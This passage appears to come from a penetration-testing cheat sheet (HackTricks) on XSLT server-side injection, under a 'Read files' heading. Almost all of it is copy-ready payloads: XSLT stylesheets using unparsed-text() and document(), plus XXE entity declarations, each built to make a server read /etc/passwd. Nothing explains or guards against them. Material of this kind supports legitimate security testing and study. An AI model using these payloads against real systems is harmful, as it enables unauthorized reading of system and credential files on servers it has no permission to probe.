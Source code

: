 Read files

### 

[](https://book.hacktricks.xyz/pentesting-web/xslt-server-side-injection-extensible-stylesheet-language-transformations#internal-php)

**Internal - PHP**

Copy

```
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:abc="http://php.net/xsl" version="1.0">
<xsl:template match="/">
<xsl:value-of select="unparsed-text('/etc/passwd', ‘utf-8')"/>
</xsl:template>
</xsl:stylesheet>
```

### 

[](https://book.hacktricks.xyz/pentesting-web/xslt-server-side-injection-extensible-stylesheet-language-transformations#internal-xxe)

**Internal - XXE**

Copy

```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE dtd_sample[<!ENTITY ext_file SYSTEM "/etc/passwd">]>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:template match="/">
&ext_file;
</xsl:template>
</xsl:stylesheet>
```

### 

[](https://book.hacktricks.xyz/pentesting-web/xslt-server-side-injection-extensible-stylesheet-language-transformations#through-http)

**Through HTTP**

Copy

```
<?xml version="1.0" encoding="utf-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:template match="/">
<xsl:value-of select="document('/etc/passwd')"/>
</xsl:template>
</xsl:stylesheet>
```

Copy

```
<!DOCTYPE xsl:stylesheet [
<!ENTITY passwd SYSTEM "file:///etc/passwd" >]>
<xsl:template match="/">
&passwd;
</xsl:template>
```

